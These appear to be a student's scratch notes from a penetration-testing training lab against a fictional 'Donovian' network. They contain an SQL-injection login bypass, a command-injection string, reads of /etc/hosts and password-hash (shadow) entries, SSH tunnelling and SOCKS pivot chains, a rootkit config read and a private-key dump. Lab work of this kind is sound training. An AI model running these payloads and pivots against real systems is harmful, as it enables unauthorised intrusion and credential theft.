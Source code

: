 Target Section:

T1
Hostname: Donovian_Extranet
IP: 192.168.28.100
OS: CentOS
Creds:Unknown
Last Known SSH Port: 2222
PSP: none
Malware: none
Action: Perform SSH masquerade and survey system. Identify redirection to the next target.

T3
Hostname: unknown
IP: x.x.x.9
OS: unknown
Creds:unknown
Last Known SSH Port: unknown
PSP: Unknown
Malware: Unknown
Action: Gain access; survey host and map Donovian internal Cyberspace.



make a tunnel to port 80
open firefox
/admin/admin.php
sql injection
un: admin
pw: ' OR '1'='1
; ls -lisa /x/x/x/

cat /etc/hosts
see intranet is 192.168.150.253

Host is up (0.0018s latency).
Not shown: 9997 closed ports
PORT     STATE SERVICE
80/tcp   open  http
514/tcp  open  shell
3201/tcp open  cpq-tasksmart ssh !!!!!!!!!!!

root:$6$V9apEU0x$cKDuPz59hBr48Qj6mnL0w5nuEddjzNEoHqfVY2pKs4VqqHqarZ1F9nCIaOsk7NvqIKrybd6OFFSnQXMjoT4aO1:19481:0:99999:7:::
ubuntu:!:19481:0:99999:7:::
comrade:$6$TWu7qH0m$CX3CNvgib3ksGe6TxlHWjKiM3AE.Azur7lGtCU2QZJlBb2Do3YBjswJ0Zy2q9.xc2sJEofW38lJuGU1uLcInU1:19481:0:99999:7:::
#F1aG = FDxVuQ3RCdXQvDlQI4bM

comrade::StudentMidwayPassword



comrade@lin:~$ sudo cat /root/brootkit/brootkit-master/br.conf


comrade@lin:~$ cat /usr/share/terminfo/b/beacon | openssl enc -d -base64 -aes-128-ctr -nopad -nosalt -k password.txt
??


   85  cat /etc/rkhunter.conf 
   68  ls -la /etc/rsyslog.d/50-default.conf 
   68  ls -la /etc/rsyslog.d/50-default.conf 
   68  ls -la /etc/rsyslog.d/50-default.conf 
   68  ls -la /etc/rsyslog.d/50-default.conf 


student@lin-ops:~/Desktop/Security$ ssh -MS /tmp/gray student@10.50.36.239
student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -L 1460:192.168.28.100:2222
student@lin-ops:~$ ssh -MS /tmp/www-datahost www-data@0.0.0.0 -p 1460



student@lin-ops:~$ ssh -S /tmp/www-datahost www-data -O forward -L 1463:192.168.150.253:3201
student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -L 1461:192.168.28.100:80
student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -D9050


student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -L 1470:192.168.28.105:2222
student@lin-ops:~$ ssh -MS /tmp/orange comrade@0.0.0.0 -p 1470
student@lin-ops:~$ ssh -S /tmp/gray gray -O cancel -D9050
student@lin-ops:~$ ssh -S /tmp/orange orange -O cancel -D9050


comrade@lin:~$ sudo tcpdump -i ens3 -XXvvn 'not port 3201'


main ms



![image](https://github.com/hannahsfrommt/Security/assets/140441321/931711e5-1567-49c3-8fb6-711f3826f61d)
![image](https://github.com/hannahsfrommt/Security/assets/140441321/b641be6c-fcd2-459d-851e-38f98a6bb487)
![image](https://github.com/hannahsfrommt/Security/assets/140441321/048e78fd-d4ae-4606-bd47-b4cf4329c25a)




student@lin-ops:~$ cat /tmp/.ssh/id_rsa
